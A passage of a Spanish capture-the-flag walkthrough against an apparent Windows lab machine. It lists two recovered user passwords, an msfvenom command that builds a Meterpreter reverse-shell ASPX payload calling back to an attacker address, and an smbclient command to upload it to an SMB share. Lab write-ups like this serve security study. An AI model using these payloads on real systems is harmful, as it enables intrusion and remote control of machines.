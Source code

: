 ![](IMG/Pasted%20image%2020250304113152.png)

```
Bob - !P@$$W0rD!123
Bill - Juw4nnaM4n420696969!$$$
```

Ya tenemos las credenciales de dos usuarios. Ahora mismo no se donde podría usarlos, quizas sirvan para más adelante.

Trataré de ejecutar una shell reversa, usaré msfvenom para crear el payload y así no no usar metasploit, primero debemos crear el payload, ejecutamos este comando:

```
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.8.16.0 LPORT=4444 -f aspx -o payload.aspx
```

![](IMG/Pasted%20image%2020250304134538.png)

Y ahora que ya tenemos nuestro exploit creado, debemos enviarlo a la maquina objetivo, así que volvemos a conectarnos al servicio samba y probamos si podemos subirlo. De nuevo ejecutamos:

```
smbclient \\\\10.10.1.159\\nt4wrksv
```

![](IMG/Pasted%20image%2020250304134925.png)

Nos da error de conexión, puede ser porque la máquina esté fallando, lleva mucho tiempo corriendo, ya que vamos haciendo la maquina a ratos. Voy a terminarla y abrir una nueva. Nos cambiará la IP, pero nos viene pasando en todas las máquinas que estamos haciendo, ya que una misma maquina las voy haciendo en varias sesiones conforme voy teniendo tiempo.
